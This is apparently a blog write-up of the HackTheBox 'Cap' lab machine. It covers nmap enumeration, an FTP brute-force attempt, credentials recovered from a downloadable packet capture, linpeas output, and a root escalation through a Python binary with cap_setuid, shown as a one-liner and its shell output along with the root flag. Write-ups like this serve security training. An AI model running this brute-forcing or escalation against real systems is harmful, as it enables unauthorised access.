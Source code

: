 ```yaml
---
layout: post
title: "Cap Writeup - HackTheBox"
category: HackTheBox
---
```


# HTB lab Machine - Cap

I started of reverting the machine, and then ran my self made script https://github.com/yassirlaaouissi/EZEA. The exact results can be found in the results/ 10.129.159.192 folder that I have attached to this post.

## Enumeration summary

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3

22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)

80/tcp open  http    gunicorn

```

```
Summary   : JQuery[2.2.4], Bootstrap, Script, X-UA-Compatible[ie=edge], HTML5, Modernizr[2.8.3.min], HTTPServer[gunicorn]

```

```
/data                 (Status: 302) [Size: 208] [--> http://10.129.159.192/]

/ip                   (Status: 200) [Size: 17442]

/netstat              (Status: 200) [Size: 29628]

/capture              (Status: 302) [Size: 220] [--> http://10.129.159.192/data/1]
```

```
|     Path: http://10.129.159.192:80/static/css/owl.carousel.min.css
|     Line number: 1
|     Comment:
|         /**
|          * Owl Carousel v2.2.1
|          * Copyright 2013-2017 David Deutsch
|          * Licensed under  ()
|          */
```

```
─$ nmap --script ftp-brute -p 21 10.129.159.192
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-10 07:01 EDT
NSE: [ftp-brute] usernames: Time limit 10m00s exceeded.
NSE: [ftp-brute] usernames: Time limit 10m00s exceeded.
NSE: [ftp-brute] passwords: Time limit 10m00s exceeded.
Nmap scan report for cap.htb (10.129.159.192)
Host is up (0.012s latency).

PORT   STATE SERVICE
21/tcp open  ftp
| ftp-brute:
|   Accounts: No valid accounts found
|_  Statistics: Performed 3734 guesses in 602 seconds, average tps: 6.0

Nmap done: 1 IP address (1 host up) scanned in 602.51 seconds

```

## Exploitation

Start wireshark for tun0 and go to http://cap.htb/data/0. Download the PCAP and you’ll find this:

![image-20210610135344295.png](https://raw.githubusercontent.com/yassirlaaouissi/yassirlaaouissi.github.io/master/_screenshots/image-20210610135344295.png)

Login ssh and ftp:

![image-20210610135409225.png](https://raw.githubusercontent.com/yassirlaaouissi/yassirlaaouissi.github.io/master/_screenshots/image-20210610135409225.png)

## Privesc time

Lnpeas is the way to go here:

```
[+] Operative system
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#kernel-exploits
Linux version 5.4.0-73-generic (buildd@lcy01-amd64-019) (gcc version 9.3.0 (Ubuntu 9.3.0-17ubuntu1~20.04)) #82-Ubuntu SMP Wed Apr 14 17:39:42 UTC 2021
Distributor ID: Ubuntu
Description:    Ubuntu 20.04.2 LTS
Release:    20.04
Codename:   focal

[+] Sudo version
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-version
Sudo version 1.8.31

```

```
[+] Unmounted file-system?
[i] Check if you can mount umounted devices
/dev/disk/by-id/dm-uuid-LVM-2om9fd1B3Q2r7E8yJyxwbZF4JCSUIQCqYgbAERHfSMVI2q5K9TyUTeGzFxbyZN4a / ext4 defaults 0 0
/dev/disk/by-uuid/d3d1cf9e-20c6-450f-b152-9854f6a804ad /boot ext4 defaults 0 0
/dev/sda4   none    swap    sw  0   0
proc    /proc   proc    defaults,hidepid=2  0   0

```

```
[+] Searching uncommon passwd files (splunk)
passwd file: /etc/pam.d/passwd
passwd file: /usr/share/bash-completion/completions/passwd
passwd file: /usr/share/lintian/overrides/passwd

```

```
[+] Capabilities[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilitiesFiles with capabilities (limited to 50):/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip/usr/bin/ping = cap_net_raw+ep/usr/bin/traceroute6.iputils = cap_net_raw+ep/usr/bin/mtr-packet = cap_net_raw+ep/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

The last one allows us to change our UID, aka make us root:

```
nathan@cap:/$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'root@cap:/# whoamirootroot@cap:/# pwd/root@cap:/# cd rootroot@cap:/root# dirroot.txt  snaproot@cap:/root# cat root.txtc336a24678a2b18b959c74e790382a0broot@cap:/root#
```

## Final thoughts

Nice 20 pointer.
